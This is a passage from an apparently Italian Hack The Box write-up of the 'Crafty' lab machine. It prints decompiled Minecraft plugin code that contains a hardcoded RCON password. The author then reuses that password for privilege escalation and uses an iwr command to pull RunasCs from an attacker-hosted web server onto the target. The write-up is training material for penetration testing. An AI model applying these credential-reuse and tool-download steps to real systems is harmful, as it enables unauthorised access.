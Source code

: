Il file Playercounter.class ha la parte principale del plugin:

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/crafty1.png)
```java
    package htb.crafty.playercounter;

import java.io.IOException;
import java.io.PrintWriter;
import net.kronos.rkon.core.Rcon;
import net.kronos.rkon.core.ex.AuthenticationException;
import org.bukkit.plugin.java.JavaPlugin;

public final class Playercounter extends JavaPlugin {
   public void onEnable() {
      Rcon rcon = null;

      try {
         rcon = new Rcon("127.0.0.1", 27015, "s67u84zKq8IXw".getBytes());
      } catch (IOException var5) {
         throw new RuntimeException(var5);
      } catch (AuthenticationException var6) {
         throw new RuntimeException(var6);
      }

      String result = null;

      try {
         result = rcon.command("players online count");
         PrintWriter writer = new PrintWriter("C:\\inetpub\\wwwroot\\playercount.txt", "UTF-8");
         writer.println(result);
      } catch (IOException var4) {
         throw new RuntimeException(var4);
      }
   }

   public void onDisable() {
   }
}
```

Si connette a rkon sulla porta 27015 con la password "s67u84zKq8IXw". In teoria si tratta dell'aggiornamento di playercount.txt nella directory web, sebbene quel file in realtà non esista su Crafty.

Ora l'idea è che quella password sia quella dell'amministratore ma senza accesso a SMB, LDAP, WinRM, Kerberos o qualsiasi altro servizio Windows autenticato, non ho un buon modo per verificare questa password dal mio host. Caricherò una copia di RunasCs scaricando una copia dalle versioni e ospitandola sul mio server web Python. Quindi, da una directory in cui svc_minecraft può scrivere (mi piace uscire da C:\Users\Public\), posso richiederlo a Crafty:

```shell-session
PS C:\Users\Public> iwr http://10.10.14.15:80/RunasCs.exe -O RunasCs.exe
iwr http://10.10.14.15:80/RunasCs.exe -O RunasCs.exe
PS C:\Users\Public> dir
dir


    Directory: C:\Users\Public


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        4/10/2020  10:47 AM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
```